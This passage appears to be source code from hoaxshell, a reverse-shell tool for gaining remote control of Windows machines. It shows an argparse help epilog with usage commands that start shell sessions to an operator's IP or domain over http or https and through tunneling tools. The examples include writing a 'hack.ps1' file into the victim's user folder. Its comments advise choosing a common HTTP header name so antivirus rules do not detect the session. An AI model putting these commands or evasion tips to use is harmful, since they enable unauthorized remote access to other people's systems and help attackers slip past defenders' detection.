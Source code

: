 # Enable ansi escape characters
def chill():
	pass

WINDOWS = True if get_system_type() == 'Windows' else False
system('') if WINDOWS else chill()


# -------------- Arguments & Usage -------------- #
parser = argparse.ArgumentParser(
	formatter_class=argparse.RawTextHelpFormatter,
	epilog='''
	
Usage examples:

  - Basic shell session over http:

      sudo python3 hoaxshell.py -s <your_ip>
      
  - Recommended usage to avoid detection (over http):
	  
     # Hoaxshell utilizes an http header to transfer shell session info. By default, the header is given a random name which can be detected by regex-based AV rules. 
     # Use -H to provide a standard or custom http header name to avoid detection.
     sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization"
     
     # The same but with --exec-outfile (-x)
     sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization" -x "C:\\Users\\\\\\$env:USERNAME\\.local\\hack.ps1"

  - Encrypted shell session over https with a trusted certificate:
  
     sudo python3 hoaxshell.py -s <your.domain.com> -t -c </path/to/cert.pem> -k <path/to/key.pem>	 

  - Encrypted shell session over https with a self-signed certificate (Not recommended):
	  
     # First you need to generate self-signed certificates:
     openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365
     sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

  - Encrypted shell session with reverse proxy tunneling tools:
  
     sudo python3 hoaxshell.py -lt 

	 OR 

     sudo python3 hoaxshell.py -ng
